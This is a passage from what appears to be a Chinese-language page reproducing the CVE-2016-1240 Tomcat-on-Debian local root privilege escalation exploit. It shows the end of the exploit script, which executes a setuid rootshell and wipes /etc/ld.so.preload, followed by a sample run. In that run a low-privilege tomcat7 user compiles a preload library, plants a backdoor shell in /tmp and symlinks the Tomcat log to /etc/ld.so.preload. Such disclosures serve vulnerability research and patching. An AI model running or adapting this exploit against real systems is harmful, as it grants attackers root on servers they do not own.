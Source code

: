     # Execute the rootshell
    echo -e "\n[+] Executing the rootshell $BACKDOORPATH now! \n"
    $BACKDOORPATH -p -c "rm -f /etc/ld.so.preload; rm -f $PRIVESCLIB"
    $BACKDOORPATH -p

    # Job done.
    cleanexit 0

#### poc运行示例：

    tomcat7@ubuntu:/tmp$ id
    uid=110(tomcat7) gid=118(tomcat7) groups=118(tomcat7)

    tomcat7@ubuntu:/tmp$ lsb_release -a
    No LSB modules are available.
    Distributor ID:    Ubuntu
    Description:    Ubuntu 16.04 LTS
    Release:    16.04
    Codename:    xenial

    tomcat7@ubuntu:/tmp$ dpkg -l | grep tomcat
    ii  libtomcat7-java              7.0.68-1ubuntu0.1               all          Servlet and JSP engine -- core libraries
    ii  tomcat7                      7.0.68-1ubuntu0.1               all          Servlet and JSP engine
    ii  tomcat7-common               7.0.68-1ubuntu0.1               all          Servlet and JSP engine -- common files

    tomcat7@ubuntu:/tmp$ ./tomcat-rootprivesc-deb.sh /var/log/tomcat7/catalina.out 

    Tomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit
    CVE-2016-1240

    Discovered and coded by: 

    Dawid Golunski 

    http://legalhackers.com

    [+] Starting the exploit in [active] mode with the following privileges: 
    uid=110(tomcat7) gid=118(tomcat7) groups=118(tomcat7)

    [+] Target Tomcat log file set to /var/log/tomcat7/catalina.out

    [+] Compiling the privesc shared library (/tmp/privesclib.c)

    [+] Backdoor/low-priv shell installed at: 
    -rwxr-xr-x 1 tomcat7 tomcat7 1037464 Sep 30 22:27 /tmp/tomcatrootsh

    [+] Symlink created at: 
    lrwxrwxrwx 1 tomcat7 tomcat7 18 Sep 30 22:27 /var/log/tomcat7/catalina.out -> /etc/ld.so.preload

    [+] Waiting for Tomcat to re-open the logs/Tomcat service restart...
    You could speed things up by executing : kill [Tomcat-pid] (as tomcat user) if needed ;)

